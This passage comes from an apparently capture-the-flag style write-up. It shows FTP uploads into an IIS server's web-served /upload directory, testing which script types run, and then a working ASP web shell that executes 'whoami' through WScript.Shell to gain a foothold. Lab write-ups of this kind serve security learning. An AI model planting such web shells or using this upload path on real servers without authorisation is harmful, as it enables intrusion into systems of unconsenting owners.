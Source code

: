Let’s test if we’re allowed to upload files. Create a _test.txt_ file on the attack machine.

```text
echo "hello" > test.txt
```

Upload the _test.txt_ file on the FTP server.

```text
ftp> put test.txt                                                                    
local: test.txt remote: test.txt                                                     
200 PORT command successful.                                                         
125 Data connection already open; Transfer starting.                                 
226 Transfer complete.                                                               
7 bytes sent in 0.00 secs (78.5740 kB/s)
```

The upload was successful. Let’s see if we can execute the file from the _/upload_ directory on the web server.

![](https://miro.medium.com/max/614/1*IsQ9pz_uu4uAFyAEw-PyFA.png)

Perfect! According to the nmap scan, this is a Microsoft IIS server version 10, so it should be able to execute ASP and ASPX code. Let’s test this out on the web server.

Create a _test.aspx_ file on the attack machine and upload it on the FTP server in the same way we did before. Then execute the file from the _/upload_ directory on the web server.

![](https://miro.medium.com/max/1017/1*CC08xJvj5SbdzlQyyJaUng.png)

We get an HTTP error saying that the file can’t be served because of the extension configuration. So we can’t upload ASPX files. Next, let’s try an ASP file.

Create a _test.asp_ file on the attack machine and upload it on the FTP server in the same way we did before. Then execute the file from the _/upload_ directory on the web server.

![](https://miro.medium.com/max/563/1*JXvfQMesSBnzSHoEZGugLA.png)

Perfect, it does execute ASP code! We’ll use this to gain an initial foothold on the system.

## Initial Foothold <a id="22c8"></a>

Create a _cmd.asp_ file on the attack machine that contains the following simple web shell.

```text
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

The above code executes the _whoami_ command and outputs it on the screen. Upload the _cmd.asp_ file on the FTP server and view it on the browser.

![](https://miro.medium.com/max/798/1*jumMYZLn6cHZhJmXlkwH5A.png)
